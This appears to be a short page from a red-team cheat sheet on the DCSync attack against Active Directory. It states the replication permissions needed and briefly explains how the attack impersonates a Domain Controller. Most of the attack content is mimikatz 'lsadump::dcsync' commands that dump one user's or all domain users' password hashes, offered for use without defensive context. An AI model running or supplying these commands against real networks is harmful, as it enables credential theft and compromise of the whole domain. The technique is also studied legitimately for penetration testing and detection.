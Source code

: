 ```yaml
---
label: From DC
subLabel: (dcsync)
---
```


# DCSync

> **Requirements**:
>
> * Current user needs `DS-Replication-Get-Changes`, `Replicating Directory Changes All` and `Replicating Directory Changes In Filtered Set` permissions on a domain object granted. By default _Domain Admins_, _Enterprise Admins_, _Administrators_ and _Domain Controllers_ groups have the required permissions.
> * Access to LDAP service on DC.

A DCSync attack exploits a legitimate function of Active Directory to steal password data from Domain Controller database. The DCSync simulates the behavior of a Domain Controller and asks other DC to replicate information using the Directory Replication Service Remote Protocol (MS-DRSR). Most often, the place from which DCSync is executed is not restricted, so you just need to have the right user.

Windows:

> **WARNING**: It assumes that you are the user who has `Replicating Directory Changes` permission and you have valid TGT or TGS for DC LDAP service in memory.

```powershell
.\mimikatz.exe

# Get a single domain user
> lsadump::dcsync /domain:$domain /user:$user

# Get all domain users
> lsadump::dcsync /domain:$domain /all
```
